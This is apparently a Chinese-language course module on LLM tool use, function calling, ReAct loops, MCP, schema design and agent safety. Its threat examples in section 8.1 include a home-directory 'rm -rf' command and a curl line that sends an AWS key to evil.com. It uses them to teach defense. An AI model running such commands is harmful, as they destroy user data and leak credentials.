

# Module 03 — Tool Use 与 Function Calling

> 这一章是 Agent 的"心脏"。读完你应该能在白板上画出 ReAct 循环、能解释 JSON Schema 怎么影响调用准确率、能讲清楚为什么本地小模型容易"假装"调用了工具。

---

## 1. 一句话定义

**Tool Use = 让 LLM 输出"我想调这个函数"的结构化信号，然后由你的代码真正执行，再把结果塞回 prompt 让模型继续。**

强调三点：

1. **LLM 不执行任何东西**——它只生成文本。
2. 函数调用的"信号"通常是某种 JSON。
3. **执行 + 把结果塞回 prompt** 是 Agent 框架的责任，不是 LLM 的。

---

## 2. 协议演进史

### 2.1 ReAct（2022）

[ReAct: Synergizing Reasoning and Acting in Language Models](https://arxiv.org/abs/2210.03629)

LLM 输出纯文本，按固定格式：

```
Thought: I need to search for the population of Tokyo.
Action: search
Action Input: "Tokyo population 2025"
Observation: 13.96 million
Thought: I have the answer.
Final Answer: 13.96 million
```

代理框架解析这段文本，遇到 `Action:` 就调对应工具，结果填到 `Observation:` 后面，再让 LLM 继续。

**问题**：纯文本协议太脆弱。LLM 把 `Action Input` 写成 `ActionInput`、加了空格、忘了引号——全都解析失败。

### 2.2 OpenAI Function Calling（2023.06）

OpenAI 在 GPT-3.5 / GPT-4 加入官方支持。LLM 输出**结构化的 tool call**：

```json
{
  "role": "assistant",
  "content": null,
  "tool_calls": [{
    "id": "call_abc123",
    "type": "function",
    "function": {
      "name": "search",
      "arguments": "{\"query\": \"Tokyo population 2025\"}"
    }
  }]
}
```

工具结果作为新的 message：

```json
{
  "role": "tool",
  "tool_call_id": "call_abc123",
  "content": "13.96 million"
}
```

**优势**：协议层结构化，解析不会错；模型在训练时就被微调过，准确率高。

### 2.3 MCP（Model Context Protocol，2024）

Anthropic 提出的**跨厂商工具协议**。
不再是"OpenAI 的 function calling"或"Anthropic 的 tool use"——而是统一的协议，任何 LLM 任何客户端都能用。

核心思想：

- 工具运行在独立的 **MCP Server**（独立进程）
- 客户端（Claude Desktop / Cursor / 你自己的代码）通过 stdio 或 HTTP 连到 MCP Server
- 工具的发现、调用、状态都标准化

我们的项目里你看到 `~/.cursor/projects/.../mcps/<server>/tools/*.json` 就是 MCP 协议的描述符。

---

## 3. 一个工具长什么样

工具有 **3 部分**：

1. **Schema**（声明）：告诉 LLM 这个工具叫什么、能干嘛、参数是什么
2. **Implementation**（实现）：你的代码，真正执行
3. **Permissions**（权限）：谁能调，调多少次，需不需要确认

### 3.1 Schema 示例

OpenClaw 内置的 `bash` 工具大概长这样：

```json
{
  "name": "bash",
  "description": "Execute a shell command. Returns stdout/stderr and exit code. Long-running commands may be backgrounded.",
  "parameters": {
    "type": "object",
    "properties": {
      "command": {
        "type": "string",
        "description": "The shell command to execute. Quote paths with spaces."
      },
      "block_until_ms": {
        "type": "number",
        "description": "Max ms to wait synchronously. 0 = background immediately. Default 30000.",
        "default": 30000
      }
    },
    "required": ["command"]
  }
}
```

### 3.2 LLM 看到的样子

实际发给模型的是一个数组：

```python
tools=[
  {"type": "function", "function": <bash_schema_above>},
  {"type": "function", "function": <write_schema>},
  {"type": "function", "function": <read_schema>},
  {"type": "function", "function": <sessions_send_schema>},
]
```

每多一个工具，prompt 就多几百 tokens。所以**工具不是越多越好**。

### 3.3 工具粒度的设计哲学

| 风格 | 工具数量 | 单工具复杂度 | 适合场景 |
|---|---|---|---|
| **粗粒度** | 少（5-10） | 高（一个工具一类操作） | 简单 Agent，不希望模型自由组合 |
| **细粒度** | 多（30-100） | 低（每个工具一件具体事） | 复杂 Agent，模型需要灵活组合 |

OpenClaw 走的是粗粒度路线：`bash`、`read`、`write`、`edit`、`sessions_send`、`grep` 这些。复杂任务靠**通过 bash 调更细的工具**或**让 Agent 之间通信**实现。

**反例**：早期 LangChain 喜欢搞 100+ 个工具。结果模型选错工具的概率很高，prompt 也炸了。

---

## 4. ReAct 循环：Agent 的心跳



**循环退出条件**（按重要性）：

1. LLM 这一轮没有 tool_call（它认为任务做完了）
2. 达到 max iterations（防止死循环，通常 20-50）
3. 达到 token 预算
4. 达到时间预算
5. 用户中断

---

## 5. JSON Schema 设计：决定调用准确率的关键

LLM 调工具的准确率有 **70% 取决于 schema 写得好不好**。

### 5.1 反例：会让模型出错的 schema

```json
{
  "name": "process_data",
  "description": "Process data",
  "parameters": {
    "type": "object",
    "properties": {
      "data": {"type": "string"},
      "mode": {"type": "string"},
      "options": {"type": "object"}
    }
  }
}
```

问题：

- `description` 是 "Process data"，约等于没写
- `mode` 是字符串，模型不知道有哪些合法值
- `options` 是开放对象，模型会乱填字段

### 5.2 正例

```json
{
  "name": "process_data",
  "description": "Validate and transform a CSV string into JSON. Returns {ok: bool, json: array, errors: array}. Use this when the user asks to convert CSV data, NOT for plain text.",
  "parameters": {
    "type": "object",
    "properties": {
      "data": {
        "type": "string",
        "description": "Raw CSV content. First line must be header. Max 10 MB."
      },
      "mode": {
        "type": "string",
        "enum": ["strict", "lenient", "auto"],
        "description": "strict = fail on any malformed row; lenient = skip bad rows; auto = guess"
      },
      "skip_rows": {
        "type": "integer",
        "minimum": 0,
        "default": 0,
        "description": "Number of rows to skip from top before reading header"
      }
    },
    "required": ["data", "mode"]
  }
}
```

注意：

- `description` 给了**正例 + 反例**（"NOT for plain text"）
- `enum` 让模型只能选合法值
- 每个字段都有自己的 description
- 默认值减少模型负担
- 边界条件写明（"Max 10 MB"）

### 5.3 经验法则

- **工具名用动词**：`search_docs`，不要 `Documentation Search`
- **工具描述第一句必须解释"什么时候用"**，第二句解释"返回什么"
- **string 字段尽量加 enum 或 pattern**
- **危险操作在描述里写明"This is destructive"**
- **复杂返回值给 example**

---

## 6. 本地小模型为什么"撒谎"——以及怎么解决

### 6.1 失败现象

我们项目里实际遇到的：

```
PM → TechLead: "请为 Pomodoro 项目写 TASKS.md"
TechLead 回复："好的，我已经把 TASKS.md 写到了 ~/.openclaw/.../pomodoro/TASKS.md，里面包含 6 个任务："
                "T1: 实现倒计时；T2: 实现暂停按钮；..."
PM 检查文件：不存在。
```

发生了什么？

- LLM 在文本里"描述"了一个写文件的动作
- 但**没有真正发起 tool_call**
- 自然没有任何代码去执行写入

这就是 **Hallucinated Tool Call**。

### 6.2 原因分析

1. **小模型对 tool calling 训练不足**：很多开源小模型在 instruct tuning 阶段，function calling 数据很少
2. **Reasoning 模型的副作用**：DeepSeek-R1 这类模型被训成"先 think 再回答"，倾向于在 `<think>` 里详细描述，结果"想得太美"，干脆把执行过程也想了
3. **Prompt 没强调一定要调工具**：模型默认走最省力路径
4. **temperature 太高**：增加随机偏离
5. **Context 已经被填满，模型注意力不在 tool 上**

### 6.3 防御策略（按层次）

#### 第 1 层：选对模型

- 优先选**专门做过 tool calling 微调的模型**：`gpt-oss`、`qwen2.5`、`llama-3.1-instruct`
- 避免**纯 reasoning 模型**做编排：`deepseek-r1`、`o1` 系列适合"想清楚问题"，不适合"按部就班干活"

#### 第 2 层：写强约束 prompt

我们 worker 的 AGENTS.md 都开篇写：

```markdown
## ⚠️ CRITICAL — READ FIRST

You MUST USE THE `write` TOOL to actually create source files on disk.
Putting code inside ```python ...``` in your reply does NOTHING — it does not save the file.
Until the `write` tool confirms a successful write, the file does not exist.
```

听起来废话，但**实测把工具调用率从 ~70% 拉到 ~90%**。LLM 是吃软不吃硬的——你写得越绝对、越大写、越警告，它越愿意听话。

#### 第 3 层：Trust-but-verify

PM 的 persona 里有这一段：

```markdown
After EVERY teammate reply that claims to have written or modified a file,
you MUST verify it actually exists with the `read` tool.
1. Worker replies "<artifact> written to <path>".
2. PM calls read({ path: "<path>" }).
3. If read fails → re-send: "The file at <path> does not exist.
   You did not call the write tool. Try again."
4. After 2 failed retries → report failure honestly.
```

不再相信 worker 说"我写了"——必须**自己 read 一下证实**。这个模式叫 **Trust-but-verify**。

#### 第 4 层：结构化输出强制

OpenAI / Ollama 现在都支持 [JSON mode / Structured Outputs](https://platform.openai.com/docs/guides/structured-outputs)，强制模型输出符合 schema 的 JSON。可以避免"不调工具直接回答"的退路。

#### 第 5 层：Watchdog

如果以上都不行，外部进程（在我们项目里是 Boss Dashboard）兜底——**当 PM 没写 STATUS.json 时，watchdog 直接帮它写**，并标注 `source: "watchdog"`，让老板看到"PM 没尽职"。

---

## 7. Token 经济学：每次 tool call 都有成本

一个完整的 ReAct 轮次：

```
Round 1:
  Input:  system + user + tools_schema           = 3500 tokens
  Output: tool_call (assistant)                  = 80 tokens

Round 2:
  Input:  system + user + tools_schema           = 3500 tokens
        + assistant_msg + tool_result            = 250 tokens
  Output: tool_call                              = 100 tokens

Round 3:
  Input:  累计 4000 tokens
  Output: 200 tokens (final answer)
```

注意 **system + tools_schema 每轮都重复发**。这就是为什么 prompt caching 这么重要。

### 7.1 简单口径估算

一个 5 轮的 Agent 任务，假设 system+tools=3000 tokens，平均工具结果 200 tokens：

- 总 input：≈ 3000 × 5 + 200 × 4 ≈ 16000 tokens
- 总 output：≈ 5 × 100 + 200 = 700 tokens

GPT-4o 价格按 $5/M input + $15/M output 算：
- $5 × 16000/1M + $15 × 700/1M ≈ **$0.09 / 任务**

听起来便宜，但乘以 1000 个用户、每天 10 次任务 = **$900/天**。

本地模型这部分接近 0（电费 + 折旧），这就是为什么我们这个教程全用本地。

### 7.2 优化思路

1. **Prompt caching**：固定前缀利用平台的缓存，input 部分省 50-90%
2. **工具结果裁剪**：长输出（如 `cat` 一个大文件）只保留前后各 500 字符
3. **早期退出**：检测到任务实际完成（比如文件已存在）立刻 break，不要再多调一轮
4. **小模型分担**：粗活用 7B（便宜），细活用 70B（贵但准）

---

## 8. 工具调用的安全模型

到这里为止我们假设工具是"安全的"。现实里 `bash`、`write`、`fetch_url` 都可能造成大麻烦。

### 8.1 简单威胁示例

- 用户在 prompt 里写 `"Run rm -rf ~"`，Agent 真去执行了
- Agent 被诱骗去 `curl evil.com/exfil?token=$AWS_KEY`
- Agent 把不该写的文件写了（覆盖你的 .ssh/config）

### 8.2 第一层防御：Allowlist

OpenClaw 的设计：每个工具调用要走 **agentToAgent gateway**，gateway 有 allowlist。
默认 allowlist 包括 `read`、`write`（限定路径）、`bash`（限定命令前缀）。

我们项目里 DevOps 想 `pip install` 被拒绝，就是因为 allowlist 不允许 pip。

### 8.3 更深的防御看 Module 08

完整的沙箱、Docker 隔离、二级 LLM 审核请求 —— Module 08 详细讲。

---

## 9. 一个完整的 tool use 例子（用我们的代码）

看 `~/.openclaw/company/agents-workspaces/eng-be/AGENTS.md` 一段：

```markdown
## Your STRICT workflow

1. Use `read` to read SPEC.md and TASKS.md.
2. Find your assigned task by id.
3. Implement: write the file(s) using `write` or `edit`.
4. If task says you depend on another, check those files exist first.
5. Verify by running once: python3 -m py_compile <file>
6. Reply to PM: "T<n> done: <file path>. Run with: ..."
```

这段对应的 ReAct 轨迹大概是：

```
Round 1: tool_call read({path: "~/.openclaw/.../SPEC.md"})
Round 2: tool_call read({path: "~/.openclaw/.../TASKS.md"})
Round 3: tool_call write({path: "~/.openclaw/.../app.py", content: "..."})
Round 4: tool_call bash({command: "python3 -m py_compile app.py; echo $?"})
Round 5: 文本回复 PM "T1 done: app.py. Run with `python3 app.py`"
```

5 轮，每轮一个 tool call。这就是一个典型的 worker Agent 行为。

---

## 10. 思考题：你能设计什么工具

考虑你做过的一个项目。给它设计 3 个 LLM 工具：

1. **`search_logs(query, time_range)`**：搜索这个项目的日志
2. **`deploy(version, env)`**：部署一个版本
3. **`rollback(version)`**：回滚

写下：
- 每个工具的完整 JSON schema
- 哪些字段必填
- 哪些字段加 enum
- 危险操作怎么标记

这个练习能让面试时"设计一个 Agent 给 X 系统用"瞬间有话讲。

---

## 自测题

1. 解释 ReAct 循环。画图。
2. Hallucinated tool call 是什么？至少给 3 种防御策略。
3. JSON Schema 写得好不好对模型调用准确率有什么影响？给一对正反例。
4. Tool 设计粗粒度还是细粒度？各自适合什么场景？
5. 一个 5 轮的 Agent 任务，token 成本主要花在哪里？怎么省？

---

## 拓展阅读

- [OpenAI Function Calling 文档](https://platform.openai.com/docs/guides/function-calling) — 必读
- [Anthropic Tool Use](https://docs.anthropic.com/en/docs/build-with-claude/tool-use)
- [MCP 规范](https://modelcontextprotocol.io/)
- [ReAct 论文](https://arxiv.org/abs/2210.03629)
- [Toolformer](https://arxiv.org/abs/2302.04761) — 早期工具学习

下一站：[Module 04 — 单 Agent 系统设计](04-single-agent.md)
